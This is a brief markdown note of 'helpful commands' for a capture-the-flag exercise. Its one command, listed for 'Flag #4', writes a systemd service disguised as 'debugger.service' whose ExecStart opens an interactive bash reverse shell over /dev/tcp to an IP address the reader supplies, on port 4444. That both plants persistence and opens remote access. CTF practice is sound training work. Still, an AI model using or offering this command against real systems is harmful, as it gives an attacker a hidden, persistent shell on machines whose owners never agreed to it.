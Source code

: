 # Some helpful commands for the CTF

### Reverse Shell for Flag #4
```
echo "[Service]\nExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/[Your.IP.Address]/4444 0>&1'" | sudo tee /lib/systemd/system/debugger.service > /dev/null
```
